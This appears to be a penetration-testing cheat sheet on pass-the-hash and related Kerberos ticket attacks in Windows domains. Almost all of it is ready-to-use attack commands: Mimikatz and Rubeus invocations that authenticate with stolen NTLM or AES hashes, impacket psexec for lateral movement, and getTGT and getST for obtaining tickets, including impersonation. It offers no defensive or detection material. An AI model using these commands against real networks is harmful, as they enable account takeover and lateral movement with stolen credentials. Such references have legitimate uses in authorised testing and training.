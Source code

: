 # Pass The Hash
You have a name and a hash? You can use the secret as authentication for the domain or other services. You can also request a Kerberos TGT or ST. This could be especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.

*Pass The Key:* DES, AES-128, AES-256 hash to obtain Kerberos tickets 
*Overpass The Hash:* NT hash to obtain Kerberos tickets

Requirements:
* User name
* A secret (password or hash) of the target user account

## Use key
`Sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH>`
`Sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256 KEY>`
`Rubeus.exe ptt /ticket:<BASE64/FILE.KIRBI>`

`python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`

## Get kerberos tickets 
#### Remote
`impacket-getTGT -dc-ip <IP> <DOMAIN>/<USER> -hashes :<HASH>`
`impacket-getST -spn <SERVICE> -dc-ip <IP> <DOMAIN>/<USER> -hashes :<HASH>`
impacket-getST can also impersonate someone if the user has impersonate set.

#### Local
`Rubeus.exe asktgt /user:<USER> /password:<PASS>`
`Rubeus.exe asktgs /ticket:<BASE64/FILE.KIRBI> /service:<SPN>`